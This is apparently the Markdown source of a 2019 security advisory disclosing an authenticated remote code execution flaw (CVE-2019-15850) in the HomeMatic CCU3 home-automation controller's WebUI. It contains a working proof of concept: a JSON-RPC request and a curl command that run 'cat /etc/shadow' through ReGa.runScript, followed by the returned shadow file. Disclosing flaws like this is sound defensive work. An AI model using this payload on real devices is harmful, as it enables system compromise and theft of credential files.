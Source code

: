 ```yaml
---
layout: post
title: "Remote Code Execution in HomeMatic central CCU3"
date: 2019-10-01 09:00:00
image:
      url: /assets/pixabay/matrix-1799659_1920.jpg
author: 'Joshua Lehr'
author_image: "https://avatars1.githubusercontent.com/u/22133182?s=400&u=9c37c0c25738af0b47f4b2ab1c3adb0b26f80abf&v=4"
author_link: "https://github.com/noskill1337"
cve: "CVE-2019-15850"
cve_description: "The HomeMatic CCU3 firmware version 3.41.11 has a Remote Code Execution (RCE) vulnerability in the ReGa.runScript method of the WebUI component. An authenticated attacker can easily execute code and compromise the system."
cve_affectedVersion: "Version: 3.41.11"
cvss: "XX.XX"
softwarePatchLink: "Vendor will not change the concept of this JSON API function."
---
```


## Overview

- Vulnerability: Remote Code Execution (RCE)
- Vendor: eQ-3 AG
- Vendor Homepage: [https://www.eq-3.com/contact.html](https://www.eq-3.com/contact.html)
- Product: HomeMatic central CCU3
- Version: {{ page.cve_affectedVersion }}

## Background

HomeMatic is a home automation system consisting of various components for automating several parts of a building, including different sensors and actuators. The HomeMatic CCU3 is a central control unit, which is responsible for integrating these components with each other.

From the vendor's [website](https://www.homematic-ip.com/produkte/detail/smart-home-zentrale-ccu3.html):
"The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). ..."

## Issue Description

While analyzing the implementation of the home automation system HomeMatic, one Remote Code Execution (RCE) vulnerability has been identified, which can be exploited in order to exploit the underlaying system. The vulnerability exists in the method 'ReGa.runScript' of the WebUI. The affected version is **{{ page.cve_affectedVersion }}**.

![Affected Version](/assets/CVE-2019-15850/CVE-2019-15850.HomeMatic.Version.JPG)

This vulnerability can be exploited by authenticated attackers with access to the web interface to execute system commands.

The following **HTTP request** illustrates this approach:

~~~ http
POST /api/homematic.cgi HTTP/1.1
Host: 192.168.0.125
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.125/pages/index.htm?sid=@KqlhlInB8S@&client=3
Content-Type: application/json
Content-Length: 199
Connection: close


{"version": "1.1", "method": "ReGa.runScript", "params": {"script": "string stdout;string stderr;system.Exec(\"cat /etc/shadow\", &stdout, &stderr);WriteLine(stdout);", "_session_id_": "KqlhlInB8S"}}
~~~

The **HTTP Response** is:

~~~ http
HTTP/1.1 200 OK
CONTENT-TYPE: application/json; charset=utf-8
Content-Length: 411
Connection: close
Date: Sun, 01 Sep 2019 18:37:40 GMT
Server: lighttpd/1.4.50


{"version": "1.1","result": "root::10933:0:99999:7:::\ndaemon:*:10933:0:99999:7:::\nbin:*:10933:0:99999:7:::\nsys:*:10933:0:99999:7:::\nsync:*:10933:0:99999:7:::\nmail:*:10933:0:99999:7:::\nwww-data:*:10933:0:99999:7:::\nhalt:*:10933:0:99999:7:::\nuucp:*:10933:0:99999:7:::\noperator:*:10933:0:99999:7:::\nftp:*:10933:0:99999:7:::\nnobody:*:10933:0:99999:7:::\n_ntp:*:::::::\nsshd:*:::::::\n\r\n","error": null}
~~~

![POC](/assets/CVE-2019-15850/CVE-2019-15850.HomeMatic.RCE.JPG)

You can easily fire this **curl command** to illustrates this approach:

~~~ bash
curl -i -s -k  -X $'POST' \
    -H $'Host: 192.168.0.125' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:64.0) Gecko/20100101 Firefox/64.0' -H $'Accept: */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://192.168.0.125/pages/index.htm?sid=@KqlhlInB8S@&client=3' -H $'Content-Type: application/json' -H $'Content-Length: 199' -H $'Connection: close' \
    --data-binary $'{\"version\": \"1.1\", \"method\": \"ReGa.runScript\", \"params\": {\"script\": \"string stdout;string stderr;system.Exec(\\\"cat /etc/shadow\\\", &stdout, &stderr);WriteLine(stdout);\", \"_session_id_\": \"KqlhlInB8S\"}}' \
    $'http://192.168.0.125/api/homematic.cgi'
~~~

## Impact

This vulnerability affects the confidentiality / integrity / availability of the system/data. This allows an attacker to read / manipulate the system. If an attacker is aware of the security issue, he or she may steal important data or compromise the system. With this vulnerability, a complete system compromise is possible.

## Remediation

In order to avoid this vulnerability, it's suggested to disable the WebUI of HomeMatic. The HomeMatic-WebUI have many other security issues.

{%if page.softwarePatchLink %}{{ page.softwarePatchLink }}{% else %}{{ "" }}{% endif %}

## CVE

- CVE: [{{ page.cve }}](https://cve.mitre.org/cgi-bin/cvename.cgi?name={{ page.cve }})
- CVSS Base Score: **{{ page.cvss }}**
- CVSS: 3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H

## Credit

- {{ site.owner }}

## Vulnerability Disclosure Timeline

- 2019-September-01: Discovered vulnerability
- 2019-September-04: Vendor Notification
- 2019-September-10: Vendor Response (Vendor will not change the concept)
- 2019-October-01: Public Disclosure

## Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

System administrators need tools like this to discover vulnerable hosts. This tool is offered for legal purposes only and to forward the security community's understanding of this vulnerability. As this PoC actively exploits the vulnerability, do not use against targets without prior permission.

The contents of this advisory are copyright (c) 2019 {{ site.owner }} and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.

## License

{{ site.LicenseDisplay }}